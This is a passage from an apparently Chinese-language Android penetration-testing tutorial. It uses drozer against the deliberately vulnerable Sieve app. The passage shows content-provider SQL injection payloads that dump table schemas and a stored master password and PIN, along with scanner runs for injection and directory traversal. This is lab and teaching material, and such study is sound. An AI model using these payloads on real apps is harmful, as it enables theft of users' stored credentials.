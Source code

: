 		_id  1
		service  aaa
		username  aaa
		password  1x/A/tb/lnRzShv6ueEw2iK1OMIHwuZeQeBo7asfd6I= (Base64-encoded)
		email  aaa

		_id  2
		service  bbb
		username  bbb
		password  1x/A/tb/lnRzShv6ueEw2gJBg5QblBjfrzkNXeajK7w= (Base64-encoded)
		email  bbb
4) sql注入（报错说明存在SQL注入）  
`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"`

		unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

    `dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"`

		unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (‘)
列出所有表  
`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"`

		| type  | name             | tbl_name         | rootpage | sql                                                                                              |
		| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                                      |
		| table | Passwords        | Passwords        | 4        | CREATE TABLE Passwords (_id INTEGER PRIMARY KEY,service TEXT,username TEXT,password BLOB,email ) |
		| table | Key              | Key              | 5        | CREATE TABLE Key (Password TEXT PRIMARY KEY,pin TEXT )  
列出某个表中的数据  
`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"`

		| Password          | pin  |
		| lina2015 | 2015 |
5）同时检测SQL注入和目录遍历  
`dz> run scanner.provider.injection -a com.mwr.example.sieve`

		Scanning com.mwr.example.sieve...
		Not Vulnerable:
		content://com.mwr.example.sieve.DBContentProvider/Keys
		content://com.mwr.example.sieve.DBContentProvider/
		content://com.mwr.example.sieve.FileBackupProvider/
		content://com.mwr.example.sieve.DBContentProvider
		content://com.mwr.example.sieve.FileBackupProvider
		Injection in Projection:
		content://com.mwr.example.sieve.DBContentProvider/Keys/
		content://com.mwr.example.sieve.DBContentProvider/Passwords
		content://com.mwr.example.sieve.DBContentProvider/Passwords/
		Injection in Selection:
		content://com.mwr.example.sieve.DBContentProvider/Keys/
		content://com.mwr.example.sieve.DBContentProvider/Passwords
		content://com.mwr.example.sieve.DBContentProvider/Passwords/
`dz> run scanner.provider.traversal -a com.mwr.example.sieve`

